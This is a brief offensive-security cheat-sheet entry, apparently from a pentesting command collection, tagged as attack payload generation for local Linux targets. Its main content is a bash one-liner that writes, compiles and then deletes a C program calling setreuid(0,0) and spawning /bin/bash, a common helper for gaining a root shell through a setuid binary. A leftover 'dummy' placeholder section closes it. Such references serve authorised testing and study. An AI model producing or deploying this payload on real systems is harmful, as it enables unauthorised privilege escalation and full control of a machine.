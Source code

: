 # C
% c, shell

## generate shell bash bin
#plateform/linux #target/local  #cat/CODE/SAMPLE #cat/ATTACK/GENERATE_PAYLOAD 

```bash
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c;
gcc pwn.c -o <filename|shell>;
rm pwn.c
```

## dummy

```foo
dummy
multiline
````
